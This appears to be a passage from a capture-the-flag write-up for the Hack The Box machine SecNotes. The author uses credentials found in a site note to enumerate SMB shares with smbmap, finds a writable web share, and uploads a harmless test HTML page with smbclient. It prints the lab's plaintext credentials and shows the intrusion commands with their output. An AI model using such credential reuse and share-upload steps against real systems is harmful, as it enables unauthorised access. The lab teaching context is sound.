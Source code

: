 Looking at years note it's odd:

```
1957, 1982, 1993, 2005, 2009*, and 2017
```

Why is 2009 starred?

New site post has creds!

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

That looks like SMB creds!

Listing SMB shares:

```sh
❯ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -d secnotes.htb -H 10.10.10.97 | tee smbmap.log
[+] IP: 10.10.10.97:445	Name: 10.10.10.97
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	new-site                                          	READ, WRITE
```

We have read-write access to `new-site`! Let's check it out more.

```sh
❯ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -d secnotes.htb -R -H 10.10.10.97
# --- snip ---
  .\new-site\*
	dr--r--r--                0 Sat Aug 21 18:16:47 2021	.
	dr--r--r--                0 Sat Aug 21 18:16:47 2021	..
	fr--r--r--              696 Thu Jun 21 16:15:36 2018	iisstart.htm
	fr--r--r--            98757 Thu Jun 21 16:15:38 2018	iisstart.png
```

Looks like it's the empty  IIS page on port 8808.

Let's try putting a page there! Here's our test page:

```html
<html>
  <body>
    <h1>
      Test page
    </h1>
  </body>
</html>
```

Now upload with smbclient:

```sh
❯ smbclient '\\10.10.10.97\new-site\' -W secnotes.htb -U tyler '92g!mA8BGjOirkL%OG*&'
smb: \> put ../exploit/test.html test.html
```
